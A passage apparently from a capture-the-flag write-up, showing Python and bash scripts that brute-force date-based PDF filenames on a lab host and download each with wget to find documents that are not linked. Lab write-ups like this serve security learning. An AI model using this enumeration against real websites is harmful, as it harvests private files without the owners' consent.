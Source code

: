 So we create a little script in python or bash to follow the nomenclature of the website:

```python
import subprocess
import datetime

# Base URL
base_url = "http://10.129.95.154/documents/"

# Start and end dates for the year 2020
start_date = datetime.date(2020, 1, 1)
end_date = datetime.date(2020, 12, 31)

# Current date for iteration
current_date = start_date

while current_date <= end_date:
    # Generate the filename
    filename = f"{current_date.strftime('%Y-%m-%d')}-upload.pdf"
    url = base_url + filename
    
    # Use wget to download the file
    try:
        subprocess.run(['wget', url], check=True)
        print(f"Downloaded: {filename}")
    except subprocess.CalledProcessError:
        print(f"Failed to download: {filename}")
    
    # Move to the next day
    current_date += datetime.timedelta(days=1)

```

or in bash

```python
#!/bin/bash
DATE=2020-01-01

for i in {0..366}
do
       NEXT_DATE=$(date +%Y-%m-%d -d "$DATE + $i day")
          echo "$NEXT_DATE""-upload"
      done
```

```
chmod +x dates4bruteforce.sh
./dates4bruteforce.sh > pdfname
```
